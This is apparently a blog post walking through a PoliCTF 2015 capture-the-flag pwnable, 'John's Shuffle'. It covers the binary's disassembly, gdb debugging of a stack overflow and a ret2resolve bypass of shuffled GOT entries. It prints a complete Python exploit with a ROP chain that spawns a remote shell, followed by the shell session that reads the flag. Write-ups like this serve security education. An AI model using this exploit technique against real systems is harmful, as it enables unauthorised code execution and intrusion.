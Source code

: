 ```yaml
---
layout: post
title: "PoliCTF 2015 John's Shuffle"
date: 2015-07-12 17:22:29 -0400
author: [barrebas]
comments: true
categories: [polictf]
---
```


### Solved by barrebas

John's Shuffle was a 350 point pwnable for PoliCTF 2015. Here's how I cracked it!

<!--more-->

Again, it's a 32 bit ELF binary. Running it yields the following:

```bash
bas@tritonal:~/tmp/polictf/johns-shuffle$ ./johns-shuffle 
It all began as a mistake..


It all began as a mistake..


It all began as a mistake..
```

Not very useful. The disassembly provided some hints, for it had functions like `shuffle`, `unshuffle` and `bubblesort`. The program kicks off by clearing a lot of stack space and calling `unshuffle`. Then, it asks for user input, maximum size 0x44 bytes. I decided to enter 0x44 * `A` (what else?). 

```
    ... clear stack space ...
 8048f30: call   8048df0 <unshuffle>
 8048f35: mov    DWORD PTR [esp],0x804b078
 8048f3c: call   8048710 <puts@plt>
 8048f41: mov    eax,ds:0x804b0c0
 8048f46: mov    DWORD PTR [esp],eax
 8048f49: call   80486c0 <fflush@plt>
 8048f4e: mov    eax,ds:0x804b0a0
 8048f53: mov    DWORD PTR [esp+0x8],eax
 8048f57: mov    DWORD PTR [esp+0x4],0x44
 8048f5f: lea    eax,[esp+0x2c]
 8048f63: mov    DWORD PTR [esp],eax
 8048f66: call   80486e0 <fgets@plt>
```

When runnning the `shuffle` function, the program executes `system()`, which spawns `/bin/dash` on my system, effectively stopping me from debugging it in `gdb`. I patched system in gdb so it would return immediately and I could trace the program. Turns out `shuffle` takes the GOT entries, all the function pointers, and shuffles them around. `unshuffle` negates this operation. After the second time I entered 0x44 A's, the program crashed with control over EIP and EBP:

```
gdb-peda$ start
Temporary breakpoint 2, 0x08048ec2 in main ()
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e9ac30 <system>
gdb-peda$ set *0xf7e9ac30=0xc3
gdb-peda$ c
It all began as a mistake..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

It all began as a mistake..

It all began as a mistake..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xf7fbeff4 --> 0x15fd7c 
ECX: 0x4 
EDX: 0x80487a6 (<difftime@plt+6>:   push   0x88)
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd5c0 ('A' <repeats 31 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd5c0 ('A' <repeats 31 times>)
0004| 0xffffd5c4 ('A' <repeats 27 times>)
0008| 0xffffd5c8 ('A' <repeats 23 times>)
0012| 0xffffd5cc ('A' <repeats 19 times>)
0016| 0xffffd5d0 ('A' <repeats 15 times>)
0020| 0xffffd5d4 ('A' <repeats 11 times>)
0024| 0xffffd5d8 ("AAAAAAA")
0028| 0xffffd5dc --> 0x414141 ('AAA')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```

Cool, easy control over EIP. However, at this point, we cannot rely on the GOT entries, because they are still shuffled! We can't just ret2system. I spent some time trying to return to `unshuffle`, but kept losing control of the program execution. 

But let's take a step back here. Linux ELF binaries employ something called "lazy linking". When a binary is started, the symbols are not resolved yet. Only when a function is called for the first time will the function address be resolved. The GOT entry will be pointing to this look up code (memcpy as example):

```
080486d0 <memcpy@plt>:
 80486d0:   ff 25 1c b0 04 08       jmp    DWORD PTR ds:0x804b01c 
 80486d6:   68 20 00 00 00          push   0x20
 80486db:   e9 a0 ff ff ff          jmp    8048680 <_init+0x2c>
```

When called for the first time, `0x804b01c` will be pointing to `0x80486d6`, which will kick off the function resolver. So instead of using `0x80486d0` to do a memcpy, I'd just use `0x80486d6`. This bypasses the mess that `shuffle` made!

With all this in hand, I wrote an exploit and the corresponding rop chain (well... more like ret2resolve ;)).

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('shuffle.polictf.it', 80))

    readtil('mistake..')
    
    rop = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    rop += p(0x8048696) # resolve -> read (so we can read in `/bin/sh`)
    rop += p(0x804901d) # pppr
    rop += p(0)         # stdin
    rop += p(0x804b130) # free mem area
    rop += p(0x10)
    rop += p(0x8048726) # resolve -> system
    rop += p(0x8048746) # resolve -> exit (makes rasta_mouse happy!)
    rop += p(0x804b130) # arg for system; will contain /bin/sh in a few moments
    
    sendln(rop)
    
    readtil('mistake..')
    sendln(rop)
    readtil('mistake..')
    sendln(rop)
    
    sendln('/bin/sh')
    t = telnetlib.Telnet()
    t.sock = s

    t.interact()

    s.close()

pwn()
```

```bash
bas@tritonal:~/tmp/polictf/johns-shuffle$ python poc.py 

id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cat /home/ctf/*
flag{rand0mizing_things_with_l0ve}
cat: /home/ctf/johnshuffle: Permission denied
```

Easy peasy! The flag was `flag{rand0mizing_things_with_l0ve}`. Nice!

